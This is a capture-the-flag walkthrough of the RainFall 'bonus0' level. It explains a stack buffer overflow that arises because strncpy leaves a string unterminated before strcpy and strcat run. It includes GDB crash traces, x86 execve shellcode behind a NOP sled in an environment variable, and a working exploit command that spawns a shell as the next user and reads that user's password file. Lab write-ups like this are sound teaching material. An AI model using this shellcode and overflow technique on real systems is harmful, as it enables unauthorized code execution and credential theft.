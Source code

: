 # Walkthrough

The home of bonus0 contains a binary, `bonus0`. We decompile it using dogbolt, there are a few interesting functions:

```c
char *__cdecl pp(char *main_string)
{
  char a[20]; 
  char b[20];

  p(a, " - ");
  p(b, " - ");
  strcpy(main_string, a);
  main_string[strlen(main_string)] = ' ';
  main_string[strlen(main_string)] = '\0';
  return strcat(main_string, b);
}
```
`strcat` is a dangerous function. Entry of its `man`:
```
SECURITY CONSIDERATIONS
     The strcat() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality through a buffer overflow attack.  (See the FSA.)

     Avoid using strcat().  Instead, use strncat() or strlcat() and ensure that no more characters are copied to the destination buffer than it can hold.

     Note that strncat() can also be problematic.  It may be a security concern for a string to be truncated at all.  Since the truncated string will not be as long as the original, it may refer to a completely
     different resource and usage of the truncated resource could result in very incorrect behavior. 
```


```c
char *__cdecl p(char *dest, char *puts_string)
{
  char buf[4096];

  puts(puts_string);
  read(0, buf, 4096);
  *strchr(buf, '\n') = 0; // Replaces the \n by a \0
  return strncpy(dest, buf, 20);
}
```
From the `man` of `strncpy`:
```
     The following sets chararray to “abcdef”:

           char chararray[6];

           (void)strncpy(chararray, "abcdefgh", sizeof(chararray));

     Note that it does not NUL terminate chararray because the length of the source string is greater than or equal to the length argument.
```

But `strcpy` needs a `\0` to see when to stop copying, making the `pp` function vulnerable.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char main_string[42]; 

  pp(main_string);
  puts(main_string);
  return 0;
}
```

Using GDB, we get interesting information:
```
Starting program: /home/user/bonus0/bonus0
 -
AAAABBBBCCCCDDDDEEEE
 -
AAAABBBBCCCCDDDDEEEE
AAAABBBBCCCCDDDDEEEEAAAABBBBCCCCDDDDEEEE�� AAAABBBBCCCCDDDDEEEE��

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff710	0xbffff710
ebp            0x43424242	0x43424242
esi            0x0	0
edi            0x0	0
eip            0x44434343	0x44434343
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
We see that `ebp` and `eip` contain interesting values.
- `ebp`: `0x43424242` = "CBBB"
- `eip`: `0x44434343` = "DCCC"
The interesting part is that we managed to change the process execution flow by changing the value of `eip`. 

Now, let's try to find which string set the value of eip:
```
Starting program: /home/user/bonus0/bonus0
 -
AAAABBBBCCCCDDDDEEEE
 -
AAAABBBBCZZZZCCCDDDD
AAAABBBBCCCCDDDDEEEEAAAABBBBCZZZZCCCDDDD�� AAAABBBBCZZZZCCCDDDD��

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff710	0xbffff710
ebp            0x43424242	0x43424242
esi            0x0	0
edi            0x0	0
eip            0x5a5a5a5a	0x5a5a5a5a
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
As you can see here, `eip` is now at `0x5a5a5a5a` = "ZZZZ"
Thus, we now that we need to input 9 characters in the second string to change `eip`. 

We want to pass our shellcode inside of an environment variable, as the buffer might be too small and we want to make a nopsled for easier access.

```
bonus0@RainFall:~$ env -i payload=$(python -c 'print "\x90"*500+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"') gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/500s environ
...TRIM...
0xbffffe6e:	 "\220\220\220\220\220\220\220\220\22
...TRIM...
```
We choose address `0xbffffe6e` in the nopsled (reminder: a 'nopsled' is a chain of No Operator, thus we slide to the next real operator encountered).

Let's craft the final payload, first the input to give to the program:
```
python -c 'print "A"*4095+"\n" + "A"*9+"\x6e\xfe\xff\xbf"+"A"*7' > input.txt
```
We use 4095 + 1 characters for the first `read` call, to fill the buffer.
We put a '\n' to end the first string, 
The second string starts with 9 charcters of padding, then the address of our env variable, and extra characters to fill the string.

Then start the program with the payload in the env:
```
bonus0@RainFall:~$ cat input.txt - | env -i payload=$(python -c 'print "\x90"*500+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"') bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAn���AAAAAAA�� AAAAAAAAAn���AAAAAAA��
whoami
bonus1
cat /home/user/bonus1/.pass
```